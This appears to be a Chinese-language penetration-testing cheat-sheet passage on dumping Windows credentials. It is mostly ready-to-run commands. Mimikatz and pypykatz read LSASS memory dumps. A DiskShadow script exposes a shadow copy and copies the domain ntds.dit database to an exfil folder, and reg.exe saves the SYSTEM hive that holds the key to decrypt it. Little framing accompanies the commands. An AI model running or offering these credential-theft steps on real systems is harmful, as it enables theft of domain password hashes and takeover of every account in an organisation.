 # 密码和hash

讲解了各种方式的文章：

https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/

## isass内存转储

可以lsass.exe内存转储成lsass.dmp，再拿minidump读取即可。（也可以拿pypykatz替代）

```shell
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full
```



```shell
pypykatz lsa minidump lsass.dmp
```

## DiskShadow

需要根据情况修改：

```shell
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```

```shell
diskshadow.exe /s .\script.txt
```



还应复制 SYSTEM 注册表配置单元，因为它包含解密 NTDS 文件内容的密钥：

```shell
	reg.exe save hklm\system c:\exfil\system.bak
```



如果ntds.dit因为正在使用无法读取，需要用diskshadow，具体参考https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/和本文件的Backup Operator组提权部分。



